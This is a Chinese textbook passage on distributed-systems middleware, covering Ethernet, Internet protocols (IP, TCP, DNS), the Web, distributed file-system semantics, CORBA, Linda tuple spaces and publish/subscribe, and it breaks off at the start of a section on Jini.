典型的Internet应用有远程计算机访问（使用telnet、ssh和rlogin）、远程信息访问（使用万维网（World Wide Web）和FTP，即文件传输协议）、人际通信（使用e-mail和聊天程序）以及正在浮现的许多应用（例如，电子商务、远程医疗以及远程教育等）。所有这些应用带来的问题是，每个应用都得重新开发。例如，e-mail、FTP和万维网基本上都是将文件从A点移动到另一个点B，但是每一种应用都有自己的方式从事这项工作，完全按照自己的命名规则、传输协议、复制技术以及其他等。尽管许多Web浏览器对普通用户隐藏了这些差别，但是底层机制仍然是完全不同的。在用户界面级隐藏这些差别就像有一个人在一家提供全面服务的旅行社的Web站点中预订了从纽约到旧金山的旅行，后来发现她所购买的只不过是一张飞机票、一张火车票或者一张汽车票而已。
分布式系统添加在其底层网络上的是一些通用范型（模型），它们提供了一种统一的方法来观察整个系统。分布式系统想要做的是，将松散连接的大量机器转化为基于一种概念的一致系统。这些范型有的比较简单，而有的是很复杂的，但是其思想则总是提供某些东西用来统一整个系统。
在上下文稍有差别的情形下，统一范例的一个简单例子可以在UNIX中找到。在UNIX中，所有的I/O设备被构造成像文件一样。对键盘、打印机以及串行通信线等都使用相同的方式和相同的原语进行操作，这样，与保持原有概念上的差异相比，对它们的处理更为容易。
分布式系统面对不同硬件和操作系统实现某种统一性的途径是，在操作系统的顶部添加一层软件。这层软件称为中间件（middleware），如图8-30所示。这层软件提供了一些特定的数据结构和操作，从而允许散布的机器上的进程和用户用一致的方式互操作。
在某种意义上，中间件像是分布式系统的操作系统。这就是为什么在一本关于操作系统的书中讨论中间件的原因。不过另一方面，中间件又不是真正的操作系统，所以我们对中间件有关的讨论不会过于详细。较为全面的关于分布式系统的讨论可参见《分布式系统》（Distributed Systems，Tanenbaum和van Steen，2006）。在本章余下的部分，首先我们将快速考察在分布式系统（下层的计算机网络）中使用的硬件，然后是其通信软件（网络协议）。接着我们将考虑在这些系统中的各种范型。
分布式系统构建在计算机网络的上层，所以有必要对计算机网络这个主题做个简要的介绍。网络主要有两种，覆盖一座建筑物或一个校园的LAN（局域网，Local Area Networks）和可用于城市、乡村甚至世界范围的WAN（广域网，Wide Area Network）。最重要的LAN类型是以太网（Ethernet），所以我们把它作为LAN的范例来考察。至于WAN的例子，我们将考察Internet，尽管在技术上Internet不是一个网络，而是上千个分离网络的联邦。但是，就我们的目标而言，把Internet视为一个WAN就足够了。
1.以太网（Ethernet）
经典的以太网，在IEEE802.3标准中有具体描述，由用来连接若干计算机的同轴电缆组成。这些电缆之所以称为以太网（Ethernet），是源于发光以太，人们曾经认为电磁辐射是通过以太传播的。（19世纪英国物理学家James Clerk Maxwell发现了电磁辐射可用一个波动方程描述，那时科学家们假设空中必须充满了某些以太介质，而电磁辐射则在该以太介质中传播。不过在1887年著名的Michelson-Morley实验中，科学家们并未能探测到以太的存在，在这之后物理学家们才意识到电磁辐射可以在真空中传播）。
在以太网的非常早的第一个版本中，计算机与钻了半截孔的电缆通过一端固定在这些孔中而另一端与计算机连接的电线相连接。它们被称为插入式分接头（vampire tap），如图8-31a中所示。可是这种接头很难接正确，所以没过多久，就换用更合适的接头了。无论怎样，从电气上来看，所有的计算机都被连接起来，在网络接口卡上的电缆仿佛是被焊上一样。
要在以太网上发送包，计算机首先要侦听电缆，看看是否有其他的计算机正在进行传输。如果没有，这台计算机便开始传送一个包，其中有一个短包头，随后是0到1500字节的有效信息载荷（payload）。如果电缆正在使用中，计算机只是等待直到当前的传输结束，接着该台计算机开始发送。
如果两台计算机同时开始发送，就会导致冲突发生，两台机器都做检测。两机都用中断其传输来响应检测到的碰撞，然后在等待一个从0到T微秒的随机时间段之后，再重新开始。如果再一次冲突发生，所有碰撞的计算机进入0到2T微秒的随机等待。然后再尝试。在每个后续的冲突中，最大等待间隔加倍，用以减少更多碰撞的机会。这个算法称为二进制指数补偿算法（binary exponential backoff）。在前面有关减少锁的轮询开销中，我们曾介绍过这种算法。
以太网有其最大电缆长度限制，以及可连接的最多的计算机台数限制。要想超过其中一个的限制，就要在一座大建筑物或校园中连接多个以太网，然后用一种称为桥接器（bridge）的设备把这些以太网连接起来。桥接器允许信息从一个以太网传递到另一个以太网，而源在桥接器的一边，目的地在桥接器的另一边。
为了避免碰撞问题，现代以太网使用交换机（switch），如图8-31b所示。每个交换机有若干个端口，一个端口用于连接一台计算机、一个以太网或另一个交换机。当一个包成功地避开所有的碰撞并到达交换机时，它被缓存在交换机中并送往另一个通往目的地机器的端口。若能忍受较大的交换机成本，可以使每台机器都拥有自己的端口，从而消除掉所有的碰撞。作为一种妥协方案，在每个端口上连接少量的计算机还是有可能的。在图8-31b中，一个经典的由多个计算机组成以太网连接到交换机的一个端口中，这个以太网中的计算机通过插入式分接头连接在电缆上。
2.因特网
Internet由ARPANET（美国国防部高级研究项目署资助的一个实验性的分组交换网络）演化而来。它自1969年12月起开始运行，由三台在加州的计算机和一台在犹他州的计算机组成。当时正值冷战的顶峰时期，它被设计为一个高度容错的网络，在核弹直接击中网络的多个部分时，该网络将能够通过自动改换已死亡机器周边的路由，继续保持军事通信的中继。
ARPANET在20世纪70年代迅速地成长，结果拥有了上百台计算机。接着，一个分组无线网络、一个卫星网络以及成千的以太网都联在了该网络上，从而变成为网络的联邦，即我们今天所看到的Internet。
Internet包括了两类计算机，主机和路由器。主机（host）有PC机、笔记本计算机、掌上电脑，服务器、大型计算机以及其他那些个人或公司所有且希望与Internet连接的计算机。路由器（router）是专用的交换计算机，它在许多进线中的一条线上接收进来的包，并在许多个出口线中的一条线上按照其路径发送包。路由器类似于图8-31b中的交换机，但是路由器与这种交换机也是有差别的，这些差别就不在这里讨论了。在大型网络中，路由器互相连接，每台路由器都通过线缆或光缆连接到其他的路由器或主机上。电话公司和互联网服务提供商（Internet Service Providers，ISP）为其客户运行大型的全国性或全球性路由器网络。
图8-32展示了Internet的一部分。在图的顶部是其主干网（backbone）之一，通常由主干网操作员管理。它包括了大量通过宽带光纤连接的路由器，同时连接着其他（竞争）电话公司运行管理的主干网。除了电话公司为维护和测试所需运行的机器之外，通常没有主机直接联在主干网上。
地区网络和ISP的路由器通过中等速度的光纤连接到主干网上。依次，每个配备路由器的公司以太网连接到地区网络的路由器上。而ISP的路由器则被连接到供ISP客户们使用的调制解调器汇集器（bank）上。按照这种方式，在Internet上的每台主机至少拥有通往其他主机的一条路径，而且每台经常拥有多条通往其他主机的路径。
在Internet上的所有通信都以包（packet）的形式传送。每个包在其内部携带着目的地的地址，而这个地址是供路由器使用的。当一个包来到某个路由器时，该路由器抽取目的地地址并在一个表格（部分）中进行查询，以找出用哪根出口线发送该包以及发送到哪个路由器。这个过程不断重复，直到这个包到达目的主机。路由表是高度动态的，并且随着路由器和链路的损坏、恢复以及通信条件的变化在连续不断地更新。
所有的计算机网络都为其用户（主机和进程）提供一定的服务，这种服务通过某些关于合法消息交换的规则加以实现。下面将简要地叙述这些内容。
1.网络服务
计算机网络为使用网络的主机和进程提供服务。面向连接的服务是对电话系统的一种模仿。比如，若要同某人谈话，则要先拿起听筒，拨出号码，说话，然后挂掉。类似地，要使用面向连接的服务，服务用户要先建立一个连接，使用该连接，然后释放该连接。一个连接的基本作用则像一根管道：发送者在一端把物品（信息位）推入管道，而接收者则按照相同的顺序在管道的另一端取出它们。
相反，无连接服务则是对邮政系统的一种模仿。每个消息（信件）携带了完整的目的地地址，与所有其他消息相独立，每个消息有自己的路径通过系统。通常，当两个消息被送往同一个目的地时，第一个发送的消息会首先到达。但是，有可能第一个发送的消息会被延误，这样第二个消息会首先到达。而对于面向连接的服务而言，这是不可能发生的。
每种服务可以用服务质量（quality of service）表征。有些服务就其从来不丢失数据而言是可靠的。一般来说，可靠的服务是用以下方式实现的：接收者发回一个特别的确认包（acknowledgement packet），确认每个收到的消息，这样发送者就确信消息到达了。不过确认的过程引入了过载和延迟的问题，检查包的丢失是必要的，但是这样确实减缓了传送的速度。
一种适合可靠的、面向连接服务的典型场景是文件传送。文件的所有者希望确保所有的信息位都是正确的，并且按照以其所发送的顺序到达。几乎没有哪个文件发送客户会愿意接受偶尔会弄乱或丢失一些位的文件传送服务，即使其发送速度更快。
可靠的、面向连接的服务有两种轻微变种（minor variant）：消息序列和字节流。在前者的服务中，保留着消息的边界。当两个1KB的消息发送时，它们以两个有区别的1KB的消息形式到达，决不会成为一个2KB的消息。在后者的服务中，连接只是形成为一个字节流，不存在消息的边界。当2K字节到达接收者时，没有办法分辨出所发送的是一个2KB消息、两个1KB消息还是2048个单字节的消息。如果以分离的消息形式通过网络把一本书的页面发送到一台照排机上，在这种情形下也许保留消息的边界是重要的。而另一方面，在通过一个终端登录进入某个远程分时系统时，所需要的也只是从该终端到计算机的字节流。
对某些应用而言，由确认所引入的时延是不可接受的。一种这样的应用例子是数字化的语音通信。对电话用户而言，他们宁可时而听到一点噪音或一个被歪曲的词，也不会愿意为了确认而接受时延。
并不是所有的应用都需要连接。例如，在测试网络时，所需要的只是一种发送单个包的方法，其中的这个包具备有高可达到率但不保证一定可达。不可靠的（意味着没有确认）无连接服务，常常称作数据报服务（datagram service），它模拟了电报服务，这种服务也不为发送者提供回送确认的服务。
在其他的情形下，不用建立连接就可发送短消息的便利是受到欢迎的，但是可靠性仍然是重要的。可以把确认数据报服务（acknowledged datagram service）提供给这些应用使用。它类似于寄送一封挂号信并且要求得到一个返回收据。当收据回送到之后，发送者就可以绝对确信，该信已被送到所希望的地方且没有在路上丢失。
还有一种服务是请求-应答服务（request-reply service）。在这种服务中，发送者传送一份包含一个请求的数据报；应答中含有答复。例如，发给本地图书馆的一份询问维吾尔语在什么地方被使用的请求就属于这种类型。在客户机-服务器模式的通信实现中常常采用请求-应答：客户机发出一个请求，而服务器则响应该请求。图8-33总结了上面讨论过的各种服务类型。
2.网络协议
所有网络都有高度专门化的规则，用以说明什么消息可以发送以及如何响应这些消息。例如，在某些条件下（如文件传送），当一条消息从源送到目的地时，目的地被要求返回一个确认，以表示正确收到了该消息。在其他情形下（如数字电话），就不要求这样的确认。用于特定计算机通信的这些规则的集合，称为协议（protocol）。有许多种协议，包括路由器-路由器协议、主机-主机协议以及其他协议等。要了解计算机网络及其协议的完整论述，可参阅《计算机网络》（Computer Networks，Tanenbaum，2003）。
所有的现代网络都使用所谓的协议栈（protocol stack）把不同的协议一层一层叠加起来。每一层解决不同的问题。例如，处于最低层的协议会定义如何识别比特流中的数据包的起始和结束位置。在更高一层上，协议会确定如何通过复杂的网络来把数据包从来源节点发送到目标节点。再高一层上，协议会确保多包消息中的所有数据包都按照合适的顺序正确到达。
大多数分布式系统都使用Internet作为基础，因此这些系统使用的关键协议是两种主要的Internet协议：IP和TCP。IP（Internet Protocol）是一种数据报协议，发送者可以向网络上发出长达64KB的数据报，并期望它能够到达。它并不提供任何保证。当数据报在网络上传送时，它可能被切割成更小的包。这些包独立进行传输，并可能通过不同的路由。当所有的部分都到达目的地时，再把它们按照正确的顺序装配起来并提交出去。
当前有两个版本的IP在使用，即v4和v6。当前v4仍然占有支配地位，所以我们这里主要讨论它，但是，v6是未来的发展方向。每个v4包以一个40字节的包头开始，其中包含32位源地址和32位目标地址。这些地址就称为IP地址，它们构成了Internet中路由选择的基础。通常IP地址写作4个由点隔开的十进制数，每个数介于0～255之间，例如192.31.231.65。当一个包到达路由器时，路由器会解析出IP目标地址，并利用该地址选择路由。
既然IP数据报是非应答的，所以对于Internet的可靠通信仅仅使用IP是不够的。为了提供可靠的通信，通常在IP层之上使用另一种协议，TCP（Transmission Control Protocol，传输控制协议）。TCP使用IP来提供面向连接的数据流。为了使用TCP，进程需要首先与一个远程进程建立连接。被请求的进程需要通过机器的IP地址和机器的端口号来指定，而对进入的连接感兴趣的进程监听该端口。这些工作完成之后，只需把字节流放入连接，那么就能保证它们会从另一端按照正确的顺序完好无损地出来。TCP的实现是通过序列号、校检和、出错重传来提供这种保证的。所有这些对于发送者和接收者进程都是透明的。它们看到的只是可靠的进程间通信，就像UNIX管道一样。
为了了解这些协议的交互过程，我们来考虑一种最简单的情况：要发送的消息很小，在任何一层都不需要分割它。主机处于一个连接到Internet上的Ethernet中。那么究竟发生了什么呢？首先，用户进程产生消息，并在一个事先建立好的TCP连接上通过系统调用来发送消息。内核协议栈依次在消息前面添加TCP包头和IP包头。然后由Ethernet驱动再添加一个Ethernet包头，并把该数据包发送到Ethernet的路由器上。如图8-34路由器把数据包发送到Internet上。
为了与远程机器建立连接（或者仅仅是给它发送一个数据包），需要知道它的IP地址。因为对于人们来说管理32位的IP地址列表是很不方便的，所以就产生了一种称为DNS（Domain Name System，域名系统）的方案，它作为一个数据库把主机的ASCII名称映射为对应的IP地址。因此就可以用DNS名称（如star.cs.vu.nl）来代替对应的IP地址）（如130.37.24.6）。由于Internet电子邮件地址采用“用户名@DNS主机名”的形式命名，所以DNS名称广为人知。该命名系统允许发送方机器上的邮件程序在DNS数据库中查找目标机器的IP地址，并与目标机上的邮件守护进程建立TCP连接，然后把邮件作为文件发送出去。用户名一并发送，用于确定存放消息的邮箱。
现在我们已经有了一些有关网络和协议的背景知识，可以开始讨论不同的中间件层了。这些中间件层位于基础网络上，为应用程序和用户提供一致的范型。我们将从一个简单但是却非常著名的例子开始：万维网（World Wide Web）。Web是由在欧洲核子中心（CERN）工作的Tim Berners-Lee于1989年发明的，从那以后Web就像野火一样传遍了全世界。
Web背后的原始范型是非常简单的：每个计算机可以持有一个或多个文档，称为Web页面（Web page）。在每个页面中有文本、图像、图标、声音、电影等，还有到其他页面的超链接（hyperlink）（指针）。当用户使用一个称为Web浏览器（Web browser）的程序请求一个Web页面时，该页面就显示在用户的屏幕上。点击一个超链接会使得屏幕上的当前页面被所指向的页面替代。尽管近来在Web上添加了许多的花哨名堂，但是其底层的范型仍旧很清楚地存在着：Web是一个由文档构成的巨大有向图，其中文档可以指向其他的文档，如图8-35所示。
每个Web页面都有一个惟一的地址，称为URL（统一资源定位符，Uniform Resource Locator），其形式为protocol://DNS-name/file-name。http协议（超文本传输协议，HyperText Transfer Protocol）是最常用的，不过ftp和其他协议也在使用。协议名后面是拥有该文件的主机的DNS名称。最后是一个本地文件名，用来说明需要使用哪个文件。
整个系统按如下方式结合在一起：Web根本上是一个客户机-服务器系统，用户是客户端，而Web站点则是服务器。当用户给浏览器提供一个URL时（或者键入URL，或者点击当前页面上的某个超链接），浏览器则按照一定的步骤调取所请求的Web页面。作为一个例子，假设提供的URL是http://www.minix3.org/doc/faq.html。浏览器按照下面的步骤取得所需的页面。
1)浏览器向DNS询问www.minix3.org的IP地址。
2)DNS回答，是130.37.20.20。
3)浏览器建立一个到130.37.20.20上端口80的TCP连接。
4)接着浏览器发送对文件doc/faq.html的请求。
5)www.acm.org服务器发送文件doc/faq.html。
6)释放TCP连接。
7)浏览器显示doc/faq.html文件中的所有文本。
8)浏览器获取并显示doc/faq.html中的所有图像。
大体上，这就是Web的基础以及它是如何工作的。许多其他的功能已经添加在了上述基本Web功能之上了，包括样式表、可以在运行中生成的动态网页、带有可在客户机上执行的小程序或脚本的页面等，不过对它们的讨论超出了本书的范围。
隐藏在Web背后的基本思想是，使一个分布式系统看起来像一个巨大的、超链接的集合。另一种处理方式则是使一个分布式系统看起来像一个大型文件系统。在这一节中，我们将考察一些与设计一个广域文件系统有关的问题。
分布式系统采用一个文件系统模型意味着只存在一个全局文件系统，全世界的用户都能够读写他们各自具有授权的文件。通过一个进程将数据写入文件而另一个进程把数据读出的办法可以实现通信。由此产生了标准文件系统中的许多问题，但是也有一些与分布性相关的新问题。
1.传输模式
第一个问题是，在上传/下载模式（upload/download model）和远程访问模式之间的选择问题。在前一种模式中，如图8-36a所示，通过把远程服务器上的文件复制到本地的方法，实现进程对远程文件的访问。如果只是需要读该文件，考虑到高性能的需要，就在本地读出该文件。如果需要写入该文件，就在本地写入。进程完成工作之后，把更新后的文件送回原来的服务器。在远程访问模式中，文件停留在服务器上，而客户机向服务器发出命令并在服务器上完成工作，如图8-36b所示。
上传/下载模式的优点是简单，而且一次性传送整个文件的方法比用小块传送文件的方法效率更高。其缺点是为了在本地存放整个文件，必须拥有足够的空间，即使只需要文件的一部分也要移动整个文件，这样做显然是一种浪费，而且如果有多个并发用户则会产生一致性问题。
2.目录层次
文件只是所涉及的问题中的一部分。另一部分问题是目录系统。所有的分布式系统都支持有多个文件的目录。接下来的设计问题是，是否所有的用户都拥有该目录层次的相同视图。图8-37中的例子正好表达了我们的意思。在图8-37a中有两个文件服务器，每个服务器有三个目录和一些文件。在图8-37b中有一个系统，其中所有的客户（以及其他机器）对该分布式文件系统拥有相同的视图。如果在某台机器上路径/D/E/x是有效的，则该路径对所有其他的客户也是有效的。
相反，在图8-37c中，不同的机器有该文件系统的不同视图。重复先前的例子，路径/D/E/x可能在客户机1上有效，但是在客户机2上无效。在通过远程安装方式管理多个文件服务器的系统中，图8-37c是一个典型示例。这样既灵活又可直接实现，但是其缺点是，不能使得整个系统行为像单一的、旧式分时系统。在分时系统中，文件系统对任何进程都是一样的，如图8-37b中的模型。这个属性显然使得系统容易编程和理解。
一个密切相关的问题是，是否存在一个所有的机器都承认的全局根目录。获得全局根目录的一个方法是，让每个服务器的根目录只包含一个目录项。在这种情况下，路径取/server/path的形式，这种方式有其缺点，但是至少做到了在系统中处处相同。
3.命名透明性
这种命名方式的主要问题是，它不是完全透明的。这里涉及两种类型的透明性（transparency），并且有必要加以区分。第一种，位置透明性（location transparency），其含义是路径名没有隐含文件所在位置的信息。类似于/server1/dir1/dir2/x的路径告诉每个人，x是在服务器1上，但是并没有说明该服务器在哪里。在网络中该服务器可以随意移动，而该路径名却不必改动。所以这个系统具有位置透明性。
但是，假设文件非常大而在服务器1上的空间又很紧张。进而，如果在服务器2上有大量的空间，那么系统也许会自动地将x从1移到服务器2上。不幸地，当整个路径名的第一个分量是服务器时，即使dir1和dir2在两个服务器上都存在，系统也不能将文件自动地移动到其他的服务器上。问题在于，让文件自动移动就得将其路径名从/server1/dir1/dir2/x改变成为/server2/dir1/dir2/x。如果路径改变了，那么在内部拥有前一个路径字符串的程序就会停止工作。如果在一个系统中文件移动时文件的名称不会随之改变，则称为具有位置独立性（location independence）。将机器或服务器名称嵌在路径名中的分布式系统显然不具有位置独立性。一个基于远程安装（挂载）的系统当然也不具有位置独立性，因为在把某个文件从一个文件组（安装单元）移到另一个文件组时，是不可能仍旧使用原来的路径名的。可见位置独立性是不容易实现的，但它是分布式系统所期望的一个属性。
这里把前面讨论过的内容加以简要的总结，在分布式系统中处理文件和目录命名的方式通常有以下三种：
1)机器+路径名，如/machine/path或machine:path。
2)将远程文件系统安装在本地文件层次中。
3)在所有的机器上看来都相同的单一名字空间。
前两种方式很容易实现，特别是作为将原本不是为分布式应用而设计的已有系统连接起来的方式时是这样。而第三种方式的实现则是困难的，并且需要仔细的设计，但是它能够减轻了程序员和用户的负担。
4.文件共享的语义
当两个或多个用户共享同一个文件时，为了避免出现问题有必要精确地定义读和写的语义。在单处理器系统中，通常，语义是如下表述的，在一个read系统调用跟随一个write系统调用时，则read返回刚才写入的值，如图8-38a所示。类似地，当两个write连续出现，后跟随一个read时，则读出的值是后一个写操作所存入的值。实际上，系统强制所有的系统调用有序，并且所有的处理器都看到同样的顺序。我们将这种模型称为顺序一致性（sequential consistency）。
在分布式系统中，只要只有一个文件服务器而且客户机不缓存文件，那么顺序一致性是很容易实现的。所有的read和write直接发送到这个文件服务器上，而该服务器严格地按顺序执行它们。
不过，实际情况中，如果所有的文件请求都必须送到单台文件服务器上处理，那么这个分布式系统的性能往往会很糟糕。这个问题可以用如下方式来解决，即让客户机在其私有的高速缓存中保留经常使用文件的本地副本。但是，如果客户机1修改了在本地高速缓存中的文件，而紧接着客户机2从服务器上读取该文件，那么客户机2就会得到一个已经过时的文件，如图8-38b所示。
走出这个困局的一个途径是，将高速缓存文件上的改动立即传送回服务器。尽管概念上很简单，但这个方法却是低效率的。另一个解决方案是放宽文件共享的语义。一般的语义要求一个读操作要看到其之前的所有写操作的效果，我们可以定义一条新规则来取代它：“在一个打开文件上所进行的修改，最初仅对进行这些修改的进程是可见的。只有在该文件关闭之后，这些修改才对其他进程可见。”采用这样一个规则不会改变在图8-38b中发生的事件，但是这条规则确实重新定义了所谓正确的具体操作行为（B得到了文件的原始值）。当客户机1关闭文件时，它将一个副本回送给服务器，因此，正如所期望的，后续的read操作得到了新的值。实际上，这个规则就是图8-36中的上传/下载模式。这种语义已经得到广泛的实现，即所谓的会话语义（session semantic）。
使用会话语义产生了新的问题，即如果两个或更多的客户机同时缓存并修改同一个文件，应该怎么办？一个解决方案是，当每个文件依次关闭时，其值会被送回给服务器，所以最后的结果取决于哪个文件最后关闭。一个不太令人满意的、但是较容易实现的替代方案是，最后的结果是在各种候选中选择一个，但并不指定是哪一个。
对会话语义的另一种处理方式是，使用上传/下载模式，但是自动对已经下载的文件加锁。其他试图下载该文件的客户机将被挂起直到第一个客户机返回。如果对某个文件的操作要求非常多，服务器可以向持有该文件的客户机发送消息，询问是否可以加快速度，不过这样做可能没有作用。总而言之，正确地实现共享文件的语义是一件棘手的事情，并不存在一个优雅和有效的解决方案。
现在让我们考察第三种范型。这里不再说一切都是文档或者一切都是文件，取而代之，我们会说一切都是对象。对象是变量的集合，这些变量与一套称为方法的访问过程绑定在一起。进程不允许直接访问这些变量。相反，要求它们调用方法。
有一些程序设计语言，如C++和Java，是面向对象的，但这些对象是语言级的对象，而不是运行时刻的对象。一个知名的基于运行时对象的系统是CORBA（公共对象请求代理体系结构，Common Object Request Broker Architecture）（Vinoski，1997）。CORBA是一个客户机-服务器系统，其中在客户机上的客户进程可以调用位于（可能是远程）服务器上的对象操作。CORBA是为运行不同硬件平台和操作系统的异构系统而设计的，并且用各种语言编写。为了使在一个平台上的客户有可能使用在不同平台上的服务器，将ORB（对象请求代理，Object Request Broker）插入到客户机和服务器之间，从而使它们相互匹配。ORB在CORBA中扮演着重要的角色，以至于连该系统也采用了这个名称。
每个CORBA对象是由叫做IDL（接口定义语言，Interface Definition Language）的语言中的接口定义所定义的，说明该对象提供什么方法，以及每个方法期望使用什么类型的参数。可以把IDL的规约（specification）编译进客户端桩过程中，并且存储在一个库里。如果一个客户机进程预先知道它需要访问某个对象，这个进程则与该对象的客户端桩代码链接。也可以把IDL规约编译进服务器一方的一个框架（skeleton）过程中。如果不能提前知道进程需要使用哪一个CORBA对象，进行动态调用也是可能的，但是有关动态调用如何工作的原理则不在本书的讲述范围内。
当创建一个CORBA对象时，一个对它的引用也创建出来并返回给创建它的进程。该引用涉及进程如何标识该对象以便随后对其方法进行调用。该引用还可以传递给其他的进程或存储在一个对象目录中。
要调用一个对象中的方法，客户机进程必须首先获得对该对象的引用。引用可以直接来源于创建进程，或更有可能是，通过名字寻找或通过功能在某类目录中寻找。一旦有了该对象的引用，客户机进程将把方法调用的参数编排进一个便利的结构中，然后与客户机ORB联系。接着，客户机ORB向服务器ORB发送一条消息，后者真正调用对象中的方法。整个机制类似于RPC。
ORB的功能是将客户机和服务器代码中的所有低层次的分布和通信细节都隐藏起来。特别地，客户机的ORB隐藏了服务器的位置、服务器是二进制代码还是脚本、服务器在什么硬件和操作系统上运行、有关对象当前是否是活动的以及两个ORB是如何通信的（例如，TCP/IP、RPC、共享内存等）。
在第一版CORBA中，没有规定客户机ORB和服务器ORB之间的协议。结果导致每一个ORB的销售商都使用不同的协议，其中的任何两个协议之间都不能彼此通信。在2.0版中，规定了协议。对于用在Internet上的通信，协议称为IIOP（Internet InterOrb Protocol）。
为了能够在CORBA系统中使用那些不是为CORBA编写的对象，可以为每个对象装备一个对象适配器（object adapter）。对象适配器是一种包装器，它处理诸如登记对象、生成对象引用以及激发一个在被调用时处于未活动状态的对象等琐碎事务。所有这些与CORBA有关部分的布局如图8-39所示。
对于CORBA而言，一个严重问题是每个CORBA对象只存在一个服务器上，这意味着那些在世界各地客户机上被大量使用的对象，会有很差的性能。在实践中，CORBA只在小规模系统中才能有效工作，比如，在一台计算机、一个局域网或者一个公司中用来连接进程。
分布式系统的最后一个范型是所谓基于协作的中间件（coordination-based middleware）。我们将从Linda系统开始，这是一个开启了该领域的学术性研究项目。然后考察主要由该项目所激发的两个商业案例：pubilsh/subscribe以及Jini。
1.Linda
Linda是一个由耶鲁大学的David Gelernter和他的学生Nick Carriero（Carriero与Gelernter，1986；Carriero与Gelernter，1985）研发的用于通信和同步的新系统。在Linda系统中，相互独立的进程之间通过一个抽象的元组空间（tuple space）进行通信。对整个系统而言，元组空间是全局性的，在任何机器上的进程都可以把元组插入或移出元组空间，而不用考虑它们是如何存放的以及存放在何处。对于用户而言，元组空间像一个巨大的全局共享存储器，如同我们前面已经看到的（见图8-21c）各种类似的形式。
一个元组类似于C语言或者Java中的结构。它包括一个或多个域，每个域是一个由基语言（base language）（通过在已有的语言，如C语言中添加一个库，可以实现Linda）所支持的某种类型的值。对于C-Linda，域的类型包括整数、长整数、浮点数以及诸如数组（包括字符串）和结构（但是不含有其他的元组）之类的组合类型。与对象不同，元组是纯粹的数据；它们没有任何相关联的方法。在图8-40中给出了三个元组的示例。
在元组上存在四种操作。第一种out，将一个元组放入元组空间中。例如
out("abc",2,5);
该操作将元组("abc",2,5)放入到元组空间中。out的域通常是常数、变量或者是表达式，例如
out("matrix-1",i,j,3.14);
输出一个带有四个域的元组，其中的第二个域和第三个域由变量i和j的当前值所决定。
通过使用in原语可以从元组空间中获取元组。该原语通过内容而不是名称或者地址寻找元组。in的域可以是表达式或者形式参数。例如，考虑
in("abc",2,?i);
这个操作在元组空间中“查询”包含字符串“abc”、整数2以及在第三个域中含有任意整数（假设i是整数）的元组。如果发现了，则将该元组从元组空间中移出，并且把第三个域的值赋予变量i。这种匹配和移出操作是原子性的，所以，如果两个进程同时执行in操作，只有其中一个会成功，除非存在两个或更多的匹配元组。在元组空间中甚至可以有同一个元组的多个副本存在。
in采用的匹配算法是很直接的。in原语的域，称为模板（template），（在概念上）它与元组空间中的每个元组的同一个域相比较，如果下面的三个条件都符合，那么产生出一个匹配：
1)模板和元组有相同数量的域。
2)对应域的类型一样。
3)模板中的每个常数或者变量均与该元组域相匹配。
形式参数，由问号标识后面跟随一个变量名或类型所给定，并不参与匹配（除了类型检查例外），尽管在成功匹配之后，那些含有一个变量名称的形式参数会被赋值。
如果没有匹配的元组存在，调用进程便被挂起，直到另一个进程插入了所需要的元组为止，此时该调用进程自动复活并获得新的元组。进程阻塞和自动解除阻塞意味着，如果一个进程与输出一个元组有关而另一个进程与输入一个元组有关，那么谁在先是无关紧要的。惟一的差别是，如果in在out之前被调用了，那么会有少许的延时存在，直到得到元组为止。
在某个进程需要一个不存在的元组时，阻塞该进程的方式可以有许多用途。例如，该方式可以用于信号量的实现。为了要建立信号量S或在信号量S上执行一个up操作，进程可以执行如下操作
out("semaphore S");
要执行一个down操作，可以进行
in("semaphore S");
在元组空间中（"semaphore S"）元组的数量决定了信号量S的状态。如果信号量不存在，任何要获得信号量的企图都会被阻塞，直到某些其他的进程提供一个为止。
除了out和in操作，Linda还提供了原语read，它和in是一样的，不过它不把元组移出元组空间。还有一个原语eval，它的作用是同时对元组的参数进行计算，计算后的元组会被放进元组空间中去。可以利用这个机制完成一个任意的运算。以上内容说明了怎样在Linda中创建并行的进程。
2.发布/订阅（Pubilsh/Subscribe）
由于受到Linda的启发，出现了基于协作的模型的一个例子，称作pubilsh/subscribe（Oki等人，1993）。它由大量通过广播网网络互联的进程组成。每个进程可以是一个信息生产者、信息消费者或两者都是。
当一个信息生产者有了一条新的信息（例如，一个新的股票价格）后，它就把该信息作为一个元组在网络上广播。这种行为称为发布（publishing）。在每个元组中有一个分层的主题行，其中有多个用圆点（英文句号）分隔的域。对特定信息感兴趣的进程可以订阅（subscribe）特定的专题，这包括在主题行中使用通配符。在同一台机器上，只要通知一个元组守护进程就可以完成订阅工作，该守护进程监测已出版的元组并查找所需要的专题。
发布/订阅的实现过程如图8-41所示。当一个进程需要发布一个元组时，它在本地局域网上广播。在每台机器上的元组守护进程则把所有的已广播的元组复制进入其RAM。然后检查主题行看看哪些进程对它感兴趣，并给每个感兴趣的进程发送一个该元组的副本。元组也可以在广域网上或Internet上进行广播，这种做法可以通过将每个局域网中的一台机器变作信息路由器，用来收集所有已发布的元组，然后转送到其他的局域网上再次广播的方法来实现。这种转送方法也可以进行得更为聪明，即只把元组转送给至少有一个需要该元组的订阅者的远程局域网。不过要做到这一点，需要使用信息路由器交换有关订阅者的信息。
这里可以实现各种语义，包括可靠发送以及保证发送，即使出现崩溃也没有关系。在后一种情形下，有必要存储原有的元组供以后需要时使用。一种存储的方法是将一个数据库系统和该系统挂钩，并让该数据库订阅所有的元组。这可以通过把数据库封装在一个适配器中实现，从而允许一个已有的数据库以发布/订阅模型工作。当元组们经过时，适配器就一一抓取它们并把它们放进数据库中。
发布/订阅模型完全把生产者和消费者分隔开来，如同在Linda中一样。但是，有的时候还是有必要知道，另外还有谁对某种信息感兴趣。这种信息可以用如下的方法来收集：发布一个元组，它只询问：“谁对信息x有兴趣？”。以元组形式的响应会是：“我对x有兴趣。”
3.Jini
50多年来，计算始终是以CPU为中心的，一台计算机就是一个独立的装置，包括一个CPU、一些基本存储器、并总是有诸如硬盘等这样一些大容量的存储器。Sun公司的Jini（基因拼写的变形）则是企图改变这种计算模型的一个尝试，这种模型可以描述为以网络为中心（Waldo，1999）。
